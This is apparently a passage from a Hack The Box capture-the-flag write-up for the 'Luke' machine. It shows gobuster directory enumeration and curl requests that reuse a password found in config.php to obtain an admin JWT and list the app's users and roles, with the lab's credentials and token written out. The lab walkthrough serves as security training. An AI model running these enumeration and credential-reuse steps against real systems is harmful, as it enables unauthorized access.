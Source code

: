 __ALTERNATIVELY__

You can use the -s parameter to gobuster to include a whitelist of status codes you want it to report by adding: -s 401,300,301,500,200

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -s 200,204,301,302,307,401,403 -t 25 -x php -u http://10.10.10.137

/LICENSE (Status: 200)
/config.php (Status: 200)
/css (Status: 301)
/js (Status: 301)
/login.php (Status: 200)
/management (Status: 401)
/member (Status: 301)
/vendor (Status: 301)
=====================================================
2019/05/26 16:38:20 Finished
=====================================================
```

That `/management` URI will come in handy. It prompts us for credentials, but the one’s we have do not work here.

`/login.php` is a login page for a PHP web application.

### Port 3000 - NodeJS app

The application running on port 3000 expects a JWT token in the Authorization header. 

Ran gobuster on this with following:
```commandline
root@kali:~/htb/machines/luke# gobuster -u http://10.10.10.137:3000 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```
Results:
* http://luke.htb:3000/login - Says “Please Auth”
* http://luke.htb:3000/users (asks for Auth Token)

This is where we learn about JWT tokens (Java Web Tokens). We can submit the credentials we 
found in config.php to create a Token, which can be used as an authorization header in 
subsequent requests. Tried this with username and password we found in config.php, 
but that did not work… again I had a nudge from an outsider to try a variety of usernames… 
and I found that using `admin` as the username worked flawlessly

```commandline
root@kali:~/htb/machines/luke# curl --header "Content-Type: application/json" --request POST --data '{"password":"Zk6heYCyv6ZE9Xcg", "username":"admin"}' http://luke.htb:3000/login
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU4OTg1NjQ0LCJleHAiOjE1NTkwNzIwNDR9.jEiJ78GrGYiU-w6xxKA7sh_pJ0AI847byB_Q3LLvP08"}
```

Now we can take this JWT Token and add it to our request to /users, which will then work as follows
```commandline
root@kali:~/htb/machines/luke# curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU4OTg1NjQ0LCJleHAiOjE1NTkwNzIwNDR9.jEiJ78GrGYiU-w6xxKA7sh_pJ0AI847byB_Q3LLvP08' http://luke.htb:3000/users
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```
